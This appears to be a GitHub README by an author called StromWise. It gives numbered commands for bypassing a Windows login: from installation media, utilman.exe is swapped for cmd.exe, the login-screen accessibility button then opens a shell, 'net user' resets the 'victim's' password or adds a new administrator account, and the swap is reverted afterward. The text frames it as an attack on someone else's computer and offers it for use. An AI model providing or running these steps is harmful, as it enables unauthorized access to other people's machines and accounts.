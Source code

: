 

STEP 1:-   enter the windows installation media
STEP 2:-   once you are windows setup screen 
STEP 3:-   press SHIFT + F10              (to open cmd on that screen)
STEP 4:-   wmic logicaldisk get name                (type this command to get all the drives on the system)
STEP 5:-   search all the drive by getting the specific drive one by one to check which one is the c: of the victims computer for that type
STEP 6:-   c:                    (hit enter) (to get into specific drive seach all drive one by one which you can see after the above command)
STEP 7:-   dir                      (hit enter) (to view the file in the drive)
STEP 8:-   then enter the drive                 (by just enter the "drive letter" and ":")which is the local disk C of the victimms system then type 
STEP 9:-   cd windows            (hit enter)
STEP 10:-   cd system32             (hit enter)
STEP 11:-   ren utilman.exe utilman.bak                       (hit enter)(renameing the utilman.exe to utilman2.exe)
STEP 12:-   copy cmd.exe utilman.exe                 (hit enter)
STEP 13:-   close the cmd
STEP 14:-   cancel the installation                     (yes)

remove the usb and let system boot into windows

STEP 15:-  click on ease of acces option on login screen
STEP 16:-  to change the password of the user type 
STEP 17:-  net user <username> <password>                 (type the user name which you want to bypass and the password you want to set nowfor that user)
STEP 18:-  hit enter                 (now you can enter the password you have set for the user to login)
STEP 19:-  BOOM 

IF YOU WANT TO CREATE A NEW USER WITH ADMIN PRIVELEDGES THEN :

STEP 20:-  net user newuser newpassword /add                (Replace "newuser" and "newpassword" with the username and password you want to use for the new account.)
STEP 21:-  net localgroup Administrators newuser /add                    (Type the following command to add the new user account to the local Administrators group:)


(Once you have logged in to the new user account, open Command Prompt with user-level privileges and type the following command to revert the changes you made earlier)
STEP 21:-  cd C:\Windows\System32
STEP 21:-  takeown /f utilman.bak               (Type the following command to take ownership of the utilman.bak file:)
STEP 21:-  icacls utilman.bak /grant administrators:F                   (Type the following command to grant yourself full control over the utilman.bak file:)
STEP 21:-  del utilman.exe                           (Type the following command to delete the cmd utilman.exe file:)
STEP 21:-  ren utilman.bak utilman.exe                  (Type the following command to rename the utilman.bak file back to utilman.exe:)











____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________
